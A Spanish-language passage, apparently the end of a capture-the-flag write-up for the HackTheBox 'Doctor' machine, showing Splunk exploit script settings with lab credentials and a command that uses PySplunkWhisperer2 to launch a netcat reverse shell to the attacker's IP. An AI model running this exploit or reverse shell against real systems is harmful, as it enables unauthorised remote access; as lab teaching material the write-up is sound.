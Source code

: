 Procedamos a cambiar a lo que tenemos:

```py
...
parser = argparse.ArgumentParser()
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', default="10.10.10.209")
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', default="10.10.14.83")
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="shaun")
parser.add_argument('--password', default="Guitar123")
parser.add_argument('--payload', default="calc.exe")
parser.add_argument('--payload-file', default="pwn.bat")
...
```

Usaremos `--payload` en la ejecución para alojar nuestros comandos ;) Generemos una Reverse Shell de una, tomemos el mismo con el que accedimos a `web`.

```bash
–» python3 SplunkWhisperer2/PySplunkWhisperer2/PySplunkWhisperer2_remote.py --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4434 >/tmp/f"
```

![278pagesplunk_Psy_revshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagesplunk_Psy_revshell.png)

Listos, tamos dentro, bastante sencillo, aunque antes de encontrar este exploit, estaba un toque confundido usando otras herramientas, pero bueno, una búsqueda siempre confiable con Google: `exploit splunk github`.

Veamos las flags:

![278flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278flags.png)

...

Máquina un poco traviesa al inicio, bastante sencilla la escalada, quizás para compensar el mismo inicio. 

Gracias por pasarte y a seguir rompiendo todo (: